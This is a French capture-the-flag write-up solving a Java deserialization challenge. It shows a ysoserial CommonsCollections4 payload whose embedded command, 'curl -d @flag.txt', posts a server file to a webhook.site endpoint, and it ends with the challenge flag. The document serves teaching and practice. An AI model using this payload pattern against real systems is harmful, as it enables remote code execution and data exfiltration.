




<!--  -->

<div class="info">
<p class="title">
	<span class="name">titre:</span>
	NSA Call Converter
</p>
<p class="category">
	<span class="name">categorie:</span>
	Exploit
</p>
<p class="difficulty">
	<span class="name">difficulté:</span>
	Moyen
</p>
<p class="points">
	<span class="name">points:</span>
	150
</p>
<p class="description">
	<span class="name">description:</span>
Vous avez accès à un service interne de la NSA permettant de convertir des extraits de métadonnées téléphoniques en CSV, un format plus exploitable pour les analystes. Un extrait d'appels est fourni ci-dessous.</br>
Malheureusement, la désérialisation n'est pas effectuée correctement.</br>
Vous devez prendre le contrôle du serveur pour obtenir le fichier flag.txt dans le dossier de l'application.
</p> 
<p class="connection">
	<span class="name">connection:</span>
	<a href="http://nsacallconverter7.chall.malicecyber.com/">http://nsacallconverter7.chall.malicecyber.com/</a>
</p> 
</div>

## Solution

La première étape est de savoir ce qu'on a entre les mains, on va donc faire un hexdump du fichier **`calls.nsadb`** (ici avec **[CyberChef](https://gchq.github.io/CyberChef/)**).



On voit qu'il contient des mots relatifs à Java, comme **`org.apache.commons.collections4.list.GrowthList`**.

Cherchons un peu si c'est un type de fichier connu, soit avec la commande **`file`** sur Linux, soit on regarde les premiers octets et on cherche sur **[une liste de signatures de fichier](https://en.wikipedia.org/wiki/List_of_file_signatures)**.



On sait maintenant qu'il s'agit de données Java sérialisées. En cherchant un peut sur internet les vulnérabilités, on tombe sur pas mal d'articles comme **[HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization#exploit)** qui parle de l'outil **[ysoserial](https://github.com/frohoff/ysoserial)**.

Comme on sait que **`flag.txt`** est dans le même dossier, utilisons donc cet outil pour POST le fichier sur un endpoint.

Direction **[Webhook Site](https://webhook.site)** pour créer rapidement un endpoint (*[RequestBin](https://public.requestbin.com) fonctionne aussi*). Notre endpoint ici est le suivant : **`https://webhook.site/bb26bcef-9717-4d73-9059-a489f8ec1270`**.

Maintenant on va créer notre payload avec **[ysoserial](https://github.com/frohoff/ysoserial)**. On a vu que **`org.apache.commons.collections4`** était utilisé, ça tombe bien, c'est l'un des points d'entrée que l'outil peut exploiter. La commande pour le créer est :

```
java -jar ysoserial-all.jar CommonsCollections4 "curl -d @flag.txt https://webhook.site/bb26bcef-9717-4d73-9059-a489f8ec1270" > exploit.nsadb
```

Ensuite il nous suffit d'aller sur le site et de tenter de le convertir pour récupérer l'erreur suivante :



Si l'on regarde notre endpoint, on a bien reçu une requête POST contenant le flag :



<span class="flag">`FLAG : MALICE{NeverDeserializeUntrustedContent}`</span>

<!--  -->
